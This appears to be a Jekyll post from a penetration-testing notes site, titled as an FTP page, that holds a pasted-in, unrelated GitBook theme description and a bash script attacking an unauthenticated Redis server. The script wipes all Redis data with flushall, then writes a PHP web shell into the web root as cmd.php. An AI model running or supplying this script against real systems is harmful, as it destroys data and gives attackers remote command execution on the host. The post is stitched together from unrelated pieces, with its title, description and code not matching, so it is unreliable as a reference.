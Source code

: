 ```yaml
---
title: 🟢 21 FTP (TCP)
author: d4t4s3c
date: 2019-04-27
category: Jekyll
layout: post
---
```


# Basic Infomation

**File Transfer Protocol (FTP)** is used to communicate and transfer files between computers on a TCP/IP network.



GitBook is an amazing frontend style to present and organize contents (such as book chapters
and blogs) on Web. The typical to deploy GitBook at [Github Pages][1]
is building HTML files locally and then push to Github repository, usually to the `gh-pages`
branch. However, it's quite annoying to repeat such workload and make it hard for people do
version control via git for when there are generated HTML files to be staged in and out.

This theme takes style definition out of generated GitBook site and provided the template
for Jekyll to rendering markdown documents to HTML, thus the whole site can be deployed
to [Github Pages][1] without generating and uploading HTML bundle every time when there are
changes to the original repository.

[1]: https://pages.github.com



```bash
#!/bin/bash

rhost="192.168.1.2"   # CHANGE THIS
rport="6379"          # CHANGE THIS

redis-cli -h $rhost -p $rport flushall
sleep 0.3
echo '<?php system($_GET["cmd"]); ?>' | redis-cli -h $rhost -p $rport -x set cmd
sleep 0.3
redis-cli -h $rhost -p $rport config set dir "/var/www/html"
sleep 0.3
redis-cli -h $rhost -p $rport config set dbfilename "cmd.php"
sleep 0.3
redis-cli -h $rhost -p $rport save
sleep 0.3
exit 0
```
